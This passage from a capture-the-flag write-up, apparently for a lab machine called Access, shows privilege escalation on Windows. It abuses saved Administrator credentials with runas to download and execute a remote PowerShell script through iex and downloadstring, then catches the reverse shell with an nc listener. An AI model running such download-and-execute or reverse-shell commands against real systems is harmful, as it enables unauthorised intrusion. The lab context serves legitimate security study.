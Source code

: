 #### Start nc

The PowerShell shell is going to connect back to me on port 443 (as I specified when I added the function call to the end of the file). I’ll start a `nc` listener:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443

```

#### Execute

Now I’ll use my telnet shell to execute:

```

C:\Users\security\AppData\Local\Temp>runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.11/shell.ps1')"

```

`(new-object net.webclient).downloadstring('http://10.10.14.11/shell.ps1')` will generate a web request for the given url and return the text. `iex` will execute that result as PowerShell.

I see the callback in my `nc` window:

```

root@kali# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.98] 49164
Windows PowerShell running as user Administrator on ACCESS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
access\administrator

```

From there I can grab `root.txt`:

```

PS C:\users\administrator\desktop> dir

    Directory: C:\users\administrator\desktop

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
-a---         8/21/2018  11:07 PM         32 root.txt

PS C:\users\administrator\desktop> type root.txt
6e1586cc...

```
